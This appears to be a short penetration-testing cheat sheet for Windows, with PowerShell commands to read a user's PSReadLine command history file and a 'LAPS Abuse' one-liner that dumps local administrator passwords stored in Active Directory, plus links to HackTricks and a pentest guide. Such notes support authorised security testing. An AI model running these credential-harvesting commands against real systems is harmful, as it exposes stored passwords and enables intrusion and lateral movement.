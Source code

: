 # Windows
## Powershell enumeration
```ps1
## Powershell history file
 cd $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\
 type .\ConsoleHost_history.txt
 ```
## LAPS Abuse
```powershell
Get-ADComputer -Filter * -Properties 'ms-Mcs-AdmPwd' | Where-Object { $_.'ms-Mcs-AdmPwd' -ne $null } | Select-Object 'Name','ms-Mcs-AdmPwd'
```
https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/laps.html
https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/laps
